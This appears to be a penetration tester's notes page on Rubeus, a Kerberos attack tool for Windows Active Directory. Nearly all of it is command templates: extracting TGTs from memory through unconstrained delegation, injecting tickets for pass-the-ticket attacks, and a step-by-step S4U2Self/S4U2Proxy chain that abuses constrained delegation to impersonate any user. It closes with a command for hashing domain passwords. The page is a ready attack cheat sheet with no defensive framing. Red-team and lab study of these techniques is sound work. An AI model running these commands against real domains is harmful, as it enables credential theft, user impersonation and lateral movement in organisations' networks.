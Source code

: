 # [Rubeus](https://github.com/GhostPack/Rubeus)

---

## [Usage & Flags for Each of Rubeus's Commands](https://github.com/GhostPack/Rubeus)

---

## Listen for and Extract TGTs from Memory at a Particular Interval (Exploiting [[unconstrained-delegation|Unconstrained Delegation]])

Must be executed in the context of `NT AUTHORITY/SYSTEM`.

```powershell
Rubeus.exe monitor /monitorinterval:"$INTERVAL_IN_SECONDS" [/runfor:"$NUMBER_OF_SECONDS_TO_RUN_FOR"]
```

---

## Inject a Kerberos ticket into the Current Context to Execute a [[pass-the-ticket|Pass the Ticket]] Attack

```powershell
Rubeus.exe ptt /ticket:$TICKET
```

- `$TICKET` can either be a base64-encoded TGT or service ticket string or a path to a file containing the TGT or service ticket

---

## Abuse a [[constrained-delegation|Constrained Delegation]] Privilege to Generate a Service Ticket for Any User to a Host for which a SPN is Configured

### 1. Retrieve a TGT for the principal configured with constrained delegation

```powershell
Rubeus.exe [/domain:"$DOMAIN"] /user:"$USERNAME" [/rc4:"$RC4"] [/aes128:"$AES128"] [/aes256:"$AES256"] [/des:"$DES"] [/password:"$PASSWORD"] [/dc:$DOMAIN_CONTROLLER_FQDN_OR_IP] 
```

- `$DOMAIN/$USER` is the domain and username of the principal who has the constrained delegation privilege on `$SPN`
- `$RC4`, `$AES128`, `$AES256`, `$DES`, or `$PASSWORD` is the credential of the principal who has the constrained delegation privilege on `$SPN`

### 2. Retrieve a service ticket for the user to impersonate to the principal configured with constrained delegation (S4U2Self)

```powershell
Rubeus.exe s4u [/ticket:"$TGT"] /impersonateuser:"$USER_TO_IMPERSONATE"
```

- `$TGT` was generated in step \#1
	- Either the base64-encoded string or a path to a file containing the ticket

### 3. Retrieve a service ticket for the user to impersonate to one of the SPNs available to the principal configured with constrained delegation (S4U2Proxy)

```powershell
Rubeus.exe s4u [/ticket:"$TGT"] /msdsspn:"$SPN" /tgs:"$SERVICE_TICKET" [/altservice:"$ALTERNATIVE_SERVICE"] [/ptt]
```

- `$SPN`: [[service-principal-name|SPN]] to retrieve the new service ticket for
- `$SERVICE_TICKET` from step \#2
	- Either the base64-encoded string or a path to a file containing the ticket
- `$ALTERNATIVE_SERVICE`: an alternative service to create the new service ticket for, instead of the service from the `$SPN` (i.e., `cifs`, `ldap`, etc.)
- `/ptt` will inject the ticket into the current context. Otherwise, print it to `stdout`


### 4. [[windows/active-directory/tools/rubeus#Inject a Kerberos ticket into the Current Context to Execute a pass-the-ticket Pass the Ticket Attack|Inject the ticket into the current context to execute a pass the ticket attack]]

---

## Generate the RC4 HMAC of a Domain Account's Password

```powershell
Rubeus.exe hash /password:$PASSWORD /user:$USERNAME /domain:$DOMAIN
```
